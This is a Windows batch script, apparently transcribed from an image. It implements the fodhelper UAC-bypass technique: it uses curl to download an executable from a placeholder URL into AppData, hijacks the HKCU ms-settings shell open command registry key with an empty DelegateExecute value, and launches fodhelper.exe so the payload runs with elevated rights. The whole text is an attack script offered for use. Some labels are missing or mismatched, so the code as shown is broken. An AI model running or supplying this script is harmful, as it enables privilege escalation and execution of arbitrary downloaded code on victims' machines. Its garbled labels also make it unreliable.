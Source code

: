 @echo off
setlocal enabledelayedexpansion
call :definePaths
call :downloadFile
call :modifyRegistry
call :runFodHelper
goto :end


set "userPath=%USERPROFILE%\AppData"
set "targetKey=HKCU\Software\Classes\ms-settings\Shell\Open\command"
set "commandValue=%userPath%\yourfile.exe"
exit /b


curl -s -o "%userPath%\yourfile.exe" urltoyourexe/your.exe
exit /b

:modifyRegistry

reg add "!targetKey!" /f /ve /t REG_SZ /d "!commandValue!" > nul 2>&1

reg add "!targetKey!" /f /v "DelegateExecute" /t REG_SZ /d "" > nul 2>&1
exit /b

:startFodHelper
start "" %SystemRoot%\System32\fodhelper.exe
exit /b

:end
endlocal
